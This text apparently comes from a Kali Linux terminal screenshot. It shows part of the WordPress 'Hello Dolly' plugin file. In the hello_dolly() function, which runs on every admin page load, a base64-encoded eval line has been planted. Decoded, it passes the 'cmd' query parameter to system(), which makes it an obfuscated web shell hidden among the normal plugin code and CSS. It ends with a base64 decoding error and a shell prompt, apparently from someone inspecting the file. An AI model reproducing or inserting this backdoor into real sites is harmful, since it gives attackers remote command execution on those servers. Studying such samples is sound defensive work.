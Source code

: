 ```bash
        return wptexturize( $lyrics[ mt_rand( 0, count( $lyrics ) - 1 ) ] );
}

// This just echoes the chosen line, we'll position it later.
function hello_dolly() {
        eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));

        $chosen = hello_dolly_get_lyric();
        $lang   = '';
        if ( 'en_' !== substr( get_user_locale(), 0, 3 ) ) {
                $lang = ' lang="en"';
        }

        printf(
                '<p id="dolly"><span class="screen-reader-text">%s </span><span dir="ltr"%s>%s</span></p>',
                __( 'Quote from Hello Dolly song, by Jerry Herman:' ),
                $lang,
                $chosen
        );
}

// Now we set that function up to execute when the admin_notices action is called.
add_action( 'admin_notices', 'hello_dolly' );

// We need some CSS to position the paragraph.
function dolly_css() {
        echo "
        <style type='text/css'>
        #dolly {
                float: right;
                padding: 5px 10px;
                margin: 0;
                font-size: 12px;
                line-height: 1.6666;
        }
        .rtl #dolly {
                float: left;
        }
        .block-editor-page #dolly {
                display: none;
        }
        @media screen and (max-width: 782px) {
                #dolly,
                .rtl #dolly {
                        float: none;
                        padding-left: 0;
                        padding-right: 0;
                }
        }
        </style>
        ";
}

add_action( 'admin_head', 'dolly_css' );
base64: invalid input
                                                                             
┌──(kali㉿kali)-[~/smol]
└─$
```
